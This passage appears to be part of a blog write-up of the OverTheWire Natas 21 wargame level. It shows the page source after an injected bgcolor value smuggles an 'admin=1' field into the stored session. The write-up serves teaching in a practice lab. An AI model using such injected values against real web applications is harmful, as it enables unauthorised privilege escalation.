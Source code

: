 <img class="alignnone size-full wp-image-273" src="/assets/img/2019/09/2019-09-19_10h20_28.png" /> 

Looking at the page source for this is pretty revealing:

{% highlight html %}
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
  [align] => center
  [fontsize] => 100%
  [bgcolor] => yellow' /><br>admin:<input name='admin' value='1
  [debug] => 
  [submit] => Update
)

<p>Example:</p>
<div style='background-color: yellow' /><br>admin:<input name='admin' value='1; text-align: center; font-size: 100%;'>Hello world!</div>
<p>Change example values here:</p>
<form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br>admin:<input name='admin' value='1' /><br><input type="submit" name="submit" value="Update" /></form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>